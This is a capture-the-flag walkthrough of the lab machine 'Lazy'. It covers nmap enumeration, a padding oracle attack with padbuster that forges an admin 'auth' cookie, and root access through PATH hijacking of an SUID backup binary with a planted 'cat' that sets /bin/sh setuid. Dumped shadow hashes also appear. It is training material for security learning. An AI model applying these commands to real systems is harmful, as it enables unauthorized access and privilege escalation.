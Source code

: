 # Lazy

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 4000 10.129.64.184                 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-19 14:11 +08
Nmap scan report for 10.129.64.184
Host is up (0.0075s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

Did a detailed scan too:

```
$ nmap -p 80 -sC -sV --min-rate 4000 10.129.64.184 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-19 14:11 +08
Nmap scan report for 10.129.64.184
Host is up (0.011s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
|_http-title: CompanyDev
|_http-server-header: Apache/2.4.7 (Ubuntu)
```

Since only port 80 is open, we can proxy the traffic through Burpsuite.

### Web Enumeration --> Padding Oracle

The website shows a really basic company website:

<figure><img src="../../../.gitbook/assets/image (815).png" alt=""><figcaption></figcaption></figure>

I created a user and logged in to view the same thing:

<figure><img src="../../../.gitbook/assets/image (816).png" alt=""><figcaption></figcaption></figure>

In Burp, there appears to be a custom cookie being sent to the website called `auth`:

```http
GET /index.php HTTP/1.1
Host: 10.129.64.184
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.129.64.184/register.php
Connection: close
Cookie: auth=%2BJerWq%2FLA3RuOeAORmXt%2Bg7mwatyAe13
Upgrade-Insecure-Requests: 1

```

Although the website was written in PHP, this cookie was not the default PHP session cookie that was used. I tried to change a few parameters for it and found that the application returned a unique error:

<figure><img src="../../../.gitbook/assets/image (817).png" alt=""><figcaption></figcaption></figure>

This is an obvious hint that we have to somehow use the **paddling oracle attack** for this. This attack basically gives us a computationally feasible way to brute force the plaintext byte by byte using the error. Here's a pretty good video from college that I used:

{% embed url="https://www.youtube.com/watch?v=4EgD4PEatA8" %}

We can attempt to decrypt this cookie using `padbuster`.&#x20;

```
$ padbuster http://10.129.64.184/index.php %2BJerWq%2FLA3RuOeAORmXt%2Bg7mwatyAe13 8 -cookies auth=%2BJerWq%2FLA3RuOeAORmXt%2Bg7mwatyAe13  -encoding 0

+-------------------------------------------+
| PadBuster - v0.3.3                        |
| Brian Holyfield - Gotham Digital Science  |
| labs@gdssecurity.com                      |
+-------------------------------------------+

INFO: The original request returned the following
[+] Status: 200
[+] Location: N/A
[+] Content Length: 981

INFO: Starting PadBuster Decrypt Mode
*** Starting Block 1 of 2 ***

INFO: No error string was provided...starting response analysis

*** Response Analysis Complete ***

The following response signatures were returned:

-------------------------------------------------------
ID#     Freq    Status  Length  Location
-------------------------------------------------------
1       1       200     1133    N/A
2 **    255     200     15      N/A
-------------------------------------------------------
```

There seem to be 2 errors, 1 of which returns a length of 1133 and the rest are likely errors. I continued with test 2 since it had a higher frequency.

After a bit, `padbuster` returns the plaintext like this:

```
Block 2 Results:
[+] Cipher Text (HEX): 0ee6c1ab7201ed77
[+] Intermediate Bytes (HEX): 1a08d23d4261e9fe
[+] Plain Text: t123

-------------------------------------------------------
** Finished ***

[+] Decrypted value (ASCII): user=test123

[+] Decrypted value (HEX): 757365723D7465737431323304040404

[+] Decrypted value (Base64): dXNlcj10ZXN0MTIzBAQEBA==

-------------------------------------------------------
```

So the cookie decrypts to give us `user=test123`, and using `padbuster` again, we can encrypt it to something like `user=admin`. This would give us another cookie to work with:

```
$ padbuster http://10.129.64.184/index.php %2BJerWq%2FLA3RuOeAORmXt%2Bg7mwatyAe13 8 -cookies auth=%2BJerWq%2FLA3RuOeAORmXt%2Bg7mwatyAe13  -encoding 0 -plaintext user=admin
<TRUNCATED>
Block 1 Results:
[+] New Cipher Text (HEX): 0408ad19d62eba93
[+] Intermediate Bytes (HEX): 717bc86beb4fdefe

-------------------------------------------------------
** Finished ***

[+] Encrypted value is: BAitGdYuupMjA3gl1aFoOwAAAAAAAAAA
-------------------------------------------------------
```

When we access the website with this cookie, it tells us we are logged in as the administrator:

<figure><img src="../../../.gitbook/assets/image (818).png" alt=""><figcaption></figcaption></figure>

It also gives us a private SSH key to `ssh` in as the `mitsos` user as indicated by the URL:

```
mysshkeywithnamemitsos
```

<figure><img src="../../../.gitbook/assets/image (819).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Backup SUID --> PATH Hijack

We don't have the user's password, so we cannot check `sudo` privileges. The user's directory has an SUID binary:

```
mitsos@LazyClown:~$ ls -la
total 64
drwxr-xr-x 5 mitsos mitsos 4096 Dec  7  2021 .
drwxr-xr-x 3 root   root   4096 Dec  7  2021 ..
-rwsrwsr-x 1 root   root   7303 May  3  2017 backup
-rw------- 1 mitsos mitsos  224 May  3  2017 .bash_history
-rw-r--r-- 1 root   root      1 May  3  2017 .bash.history
-rw-r--r-- 1 mitsos mitsos  220 May  2  2017 .bash_logout
-rw-r--r-- 1 mitsos mitsos 3637 May  2  2017 .bashrc
drwx------ 2 mitsos mitsos 4096 Dec  7  2021 .cache
-rw-rw-r-- 1 mitsos mitsos    0 Dec  7  2021 cat
-rw------- 1 mitsos mitsos 2524 May  2  2017 .gdb_history
-rw-rw-r-- 1 mitsos mitsos   22 May  2  2017 .gdbinit
-rw------- 1 root   root     46 May  2  2017 .nano_history
drwxrwxr-x 4 mitsos mitsos 4096 Dec  7  2021 peda
-rw-r--r-- 1 mitsos mitsos  675 May  2  2017 .profile
drwxrwxr-x 2 mitsos mitsos 4096 Dec  7  2021 .ssh
-r--r--r-- 1 mitsos mitsos   33 Aug 19 09:38 user.txt
```

When used, it prints out the `/etc/shadow` contents:

{% code overflow="wrap" %}
```
mitsos@LazyClown:~$ ./backup 
root:$6$v1daFgo/$.7m9WXOoE4CKFdWvC.8A9aaQ334avEU8KHTmhjjGXMl0CTvZqRfNM5NO2/.7n2WtC58IUOMvLjHL0j4OsDPuL0:17288:0:99999:7:::
daemon:*:17016:0:99999:7:::
bin:*:17016:0:99999:7:::
sys:*:17016:0:99999:7:::
sync:*:17016:0:99999:7:::
games:*:17016:0:99999:7:::
man:*:17016:0:99999:7:::
lp:*:17016:0:99999:7:::
mail:*:17016:0:99999:7:::
news:*:17016:0:99999:7:::
uucp:*:17016:0:99999:7:::
proxy:*:17016:0:99999:7:::
www-data:*:17016:0:99999:7:::
backup:*:17016:0:99999:7:::
list:*:17016:0:99999:7:::
irc:*:17016:0:99999:7:::
gnats:*:17016:0:99999:7:::
nobody:*:17016:0:99999:7:::
libuuid:!:17016:0:99999:7:::
syslog:*:17016:0:99999:7:::
messagebus:*:17288:0:99999:7:::
landscape:*:17288:0:99999:7:::
mitsos:$6$LMSqqYD8$pqz8f/.wmOw3XwiLdqDuntwSrWy4P1hMYwc2MfZ70yA67pkjTaJgzbYaSgPlfnyCLLDDTDSoHJB99q2ky7lEB1:17288:0:99999:7:::
mysql:!:17288:0:99999:7:::
sshd:*:17288:0:99999:7:::
```
{% endcode %}

The hashes in this are normally not crackable, and I don't think the creator would be so kind to give us the `root` hash directly. The file was an ELF binary:

{% code overflow="wrap" %}
```
mitsos@LazyClown:~$ file backup
backup: setuid, setgid ELF 32-bit LSB  executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=33d6b5bec96c44e630f37ff41cc1c4a8b2813b6b, not stripped
```
{% endcode %}

I used `ltrace` to see the functions used:

```
mitsos@LazyClown:~$ ltrace ./backup 
__libc_start_main(0x804841d, 1, 0xbffff7d4, 0x8048440 <unfinished ...>
system("cat /etc/shadow"cat: /etc/shadow: Permission denied
 <no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                   = 256
```

This binary did not use the full path for the `cat` command, thus allowing us to create our own malicious binary within any directory to execute commands as `root`.&#x20;

To exploit this, execute the following commands:

```bash
cd /tmp
echo '#!/bin/sh' > cat
echo 'chmod u+s /bin/sh' >> cat
chmod 777 cat
export PATH=/tmp:$PATH
/home/mitsos/backup
```

<figure><img src="../../../.gitbook/assets/image (821).png" alt=""><figcaption></figcaption></figure>

Rooted!
